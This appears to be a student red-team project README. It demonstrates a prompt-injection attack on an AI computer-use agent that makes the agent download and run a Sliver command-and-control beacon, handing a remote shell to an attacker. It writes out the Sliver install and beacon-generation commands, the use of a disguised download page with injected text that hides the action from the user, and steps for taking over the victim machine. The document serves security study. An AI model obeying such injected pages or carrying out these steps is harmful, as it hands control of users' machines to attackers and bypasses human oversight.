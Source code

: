 # Attack Vector

Extending LLM applications to allow clicking and bash commands opens entirely new avenues of attack for prompt injection. The following instructions outline how LLM computer use can be used to activate attacks that traditionally required some form of social engineering by bypassing the human user while the AI agent is processing a request.

To realise the absurd risk, this demo will allow a remote computer to exicute commands on a victim's machine by using standard promt-injection style attacks combined with a download link (during a plausable user request) to run code on the machine.

### Description of the code:
- Based on the attack vectors explored by the other teammates, the simplest way to achive this attack is through a standard link-initialized phishing attack. Any request that is suseptable to the demonstrated "click-link" attack vector can be made vulnerable to this attack.
- Some light prompt injection before the download link was required to hide the action from the user.

# Reproduction Process:

> [!CAUTION]
> The following procedure invovles open-source "red team" code. Proceed at your own risk.

To begin the process, you will need an apache2 server running at an accessable location.

1. In a quarantined linux enviroment run the following command: `curl https://sliver.sh/install|sudo bash`
2. run `sliver`
3. sliver > `sessions` will list all current sessions. Currently, this list should be empty.

![screenshot](SS1_Sliver_start.png)

4. Start up the "victim" machine and start an appication that implements functions using Anthropic's computer use API. In this project, we used a docker enviroment and the demo computer use app provided by Anthropic. The instructions for starting this enviroment can be found in the [main README](https://github.com/zkoenigxd/llm-security/blob/main/README.md).
5. sliver > `generate beacon --mtls **YOUR_SERVER_LOCATION** --os linux` will create an exicutable that will subscribe the victim to the C2 server when the file is downloaded and run.
    - Note: If running both processes on a VM, you will need to attach the VM network adapter to the "Bridged Adapter" to allow accesses between systems (the default setting in Virtual Box only allow the host machine to connect).
    - You can retrive **YOUR_SERVER_LOCATION** with `ip a`.
    - This can be used against any system type by changing the os flag, refernce the [Sliver documentation](https://sliver.sh/) for further usage instructions.
6. This file must then be hosted on a webpage, accessable by a download link.
    - Note: The computer-use "agent" will be more responsive to webpages and files with benign names.
7. Direct the AI to go to the page to download and run the file.
    - An [example page](https://github.com/zkoenigxd/llm-security/blob/main/scenarios/zach_remote_access/sampleAttack.html) which closely mimics the language used in my own testing can be found in the current directory.
    - As mentioned, propting the model to achive this behavior is exlored in other tests.
    - Depending on the enviroment, the bash command may time out (python may need to be downloaded and the computer use system times out bash commands after 120 sec).
        - For demo or lab purposes, it may serve to manually download some dependencies before testing the attack with the AI tool.
        - This attack may perform better or worse depending on the performance of the victim platform.
    - Note: Given the limited capabilities of the current generation of computer use, this attack often fails to succeed without additional user input. It may:
        - Question directions to poorly known webpages
        - Open an app that is not a web browser
        - Fail to click the search bar
        - Miss-click the "Download" button or link (depending on your implementation)
        - Time out when running the bash command if the internet is slow
    - Despite the above limitations, it is often able to quickly and without prompting the user download, apply execute permissions, and run the script assuming the link can be asertained.
8. Proof of attack success can be verified with the command sliver > `beacons`
    - The info should display the name of the .exe used for the capture and the user name (by default, this demo's name is "computeruse")
9. Run any command on the victim machine (usage can be found in the [Sliver documentation](https://sliver.sh/) or by running sliver > `help`)

![screenshot](SS10_Captured_computer.png)

# Presenatation notes:
### My contribution to the group project:
- Set up the git and project environment.
- Walked the team through running the project and ensured each member had the base project running
- Read and researched the Anthropic computer use documentation and shared the results with the team.
    - Researched AI tool use
    - Researched currently available computer-use apps
    - Discovered attack vectors based on the API's limitations and inherit vulnerabilities.
- Demoed the Command-and-Control attack vector.
    - Researched C2 applications and vectors
    - Determined viable webpage prompts
    - Determined plausible user requests that would result in starting the attack chain


### Code and demonstration of results:
- The small bit of code needed and the description of the process can be found in the current folder and above in this file.

### What was learned:
- Vulnerabilities in AI Tool Integration
    - Integrating LLMs with APIs or systems like the Anthropic computer use API opens potential security vulnerabilities, emphasizing the need for robust safeguards.
- Limitations of Current AI Implementations
    - While AI agents can perform advanced tasks, they also exhibit limitations such as misinterpreting commands, failing to execute specific tasks, or timing out, which can cause problems even before introducing malicious actors.
- Importance of Context-Aware Security Measures
    - Crafting plausible attack scenarios highlighted how subtle prompt manipulation combined with system flaws could bypass human oversight and create significant risks.

### How it applies to Computer Systems Security:
- As AI agents are given more power over consumer machines, we'll need to estabish new paradigms of security. Understanding and compiling large datasets of known malicous codes and attack methods will be necessary to attempt to "teach" LLMs to mitigate risk.

### Application areas: 
- Any AI tools requesting input permissions.

### Challenges and Lessons Learned
1. Installing and running docker
    - With no prior experience with docker and having just learned the fundamentals of VMs, getting the enviroment set up in a safe way was a major hurtle.
    - It was discovered that running docker on a VM required some special configuartions be made on the host machine, and the performance proved atrocious.
    - After researching the technology, it was discovered that docker enviroments provided adiquite security on the host device for the tests we intended to run.
    - Lesson - always, ALWAYS read the docs of any unfamiliar technology.
2. Inconsistant outputs
    - The computer use application loop introduces several opportunities for hillucinations which makes getting the desired output out of the LLM incredibly difficult, regardless if the intent is malicous or not.
